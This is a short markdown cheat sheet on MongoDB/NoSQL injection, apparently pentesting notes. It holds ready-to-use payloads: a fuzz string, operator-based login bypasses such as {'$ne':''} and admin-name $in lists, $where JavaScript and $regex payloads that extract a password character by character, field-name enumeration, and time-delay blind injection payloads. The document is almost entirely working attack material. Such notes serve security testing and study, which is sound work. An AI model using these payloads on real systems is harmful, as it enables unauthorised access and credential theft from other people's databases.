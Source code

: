 # NoSQL

## Fuzzing in MongoDB
- MongoDB fuzz string: `%27%22%60%7B%0A%3B%24Foo%7D%0A%24Foo+%5CxYZ`
  - In plaintext:
    ```
    '"`{
    ;$Foo}
    $Foo \xYZ
    ```
  - In JS: ```"$where":"'\"`{\r;$Foo}\n$Foo \\xYZ\u0000"```
  - If this causes an error you can use backslash to remove a character at a time to see which are processed.
  - The null character `%00` or `\u0000` may cause everything following to be ignored

## Operators in MongoDB
- $where --> where this is true
- $ne --> not equal to
- $in --> in an array
- $regex --> matches this regex
- Submitting:
  - Need to be nested objects: `{"username": {"$ne","invalid"}}` or as a query `username[$ne]=invalid`
  - Query to test for various admin users: `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`

## Extracting data
### Finding a users password in MongoDB
- If the $where operator is used, you can may be able to send javascript to get the password: `{"$where":"this.username == 'admin' && this.password[0] == 'a' || 'a'=='b"}`
- You can use the match function to also get information like if there is digits: `{"$where":"this.username == 'admin' && this.password.match(/\d/) || 'a'=='b"}`
- If you have a vaild field this match statement can get a field value: `"$where":"this.<field-name>.match('^.{0}a.*')"`
    - The 0 is the character location and a is the character you are comparing it to
- Regex can also be used: `{"username":"admin","password":{"$regex":"^a*"}}`
  - This sees if the password starts with a
### Identifing field names
- To identify field names use three requests:
  - The first uses the field you want to know if it exists
  - The second to a field you know exists
  - The third to a random field that most likely does not exist
  - Compare the responses
- Another way is to use the match operator in $where: `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
  - This returns the first character
  - The 0 is the character location and a is the character you are comparing it to
### Injecting operators
- You can add operators to the json or query to see if they are evaluated, for example `"$where": "0"` and `"$where": "1"` could be used because if it is evaluated then one would be true and the other false
### Timing based injection
- Both of this trigger a time delay for 5000 ms if a is the first character:
  ```
  {"$where":"this.username == 'admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'}
  {"$where":"this.username == 'admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'}
  ```
